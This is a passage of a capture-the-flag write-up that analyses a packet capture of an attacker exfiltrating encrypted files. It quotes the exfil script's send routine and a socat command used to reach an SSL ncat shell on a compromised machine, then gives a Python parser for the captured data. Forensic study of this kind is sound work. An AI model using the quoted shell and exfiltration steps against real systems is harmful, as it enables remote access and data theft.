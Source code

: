 ```

    def tx(self):
        self.sock = socket.create_connection((self.host, self.port))
        self._send_preamble()
        self._send_file()
        self._send_digest()
        self.sock.close()
        self.finished = True
```

Based on the above code, there will be several different pieces of information that can be gleaned from the pcap, and it will be possible to segment out each piece so there are clear boundaries between the various portions of data. Luckily, the preamble that is sent contains the nonce and salt which will aid in decryption once the key is discovered. 

Looking at the pcap, there is distinct traffic flowing to port 31337 over TLS 1.3 and to port 1234 over TCP. This means that the socat/ncat traffic was using port 31337, while the encrypted data of the exfil script is occuring over port 1234.

<center><img src = "/assets/images/adversaryquest/exfiltrator_pcap.png"></center>

Piecing this together with the information provided the following was determined to be happening:

An attacker is running an SSL ncat listener from a compromised machine on port 31337. The attacker is then connecting to this listener via socat with `socat -,raw,echo=0 SSL:ADDRESS:PORT,verify=0` and running the exfil script from the compromised machine. This exfil script will be sending encrypted data back to the attacker's box over port 1234. 

This means that the key is in the TLS stream somewhere, either due to passing it via an arg to the script or because it was entered interactively. But how to decrypt the TLS stream to find it? Before moving into key extraction, each TCP stream was analyzed in order to extract each of the data portions shown in the python script. Saving the bytes to a file, it is possible to parse everything out with a simple python script and it was determined that there were three different files being sent.

```
import sys
from pwn import *
from os import path

file = sys.argv[1]

total = path.getsize(file)
data = open(file, "rb")
version = u8(data.read(1))
print(f"Version: {hex(version)}")

nonce_len = u8(data.read(1))
print(f"Nonce length: {hex(nonce_len)}")

nonce = data.read(nonce_len)
print(f"Nonce: {nonce.hex()}")

salt_len = u8(data.read(1))
print(f"Salt length: {hex(salt_len)}")
```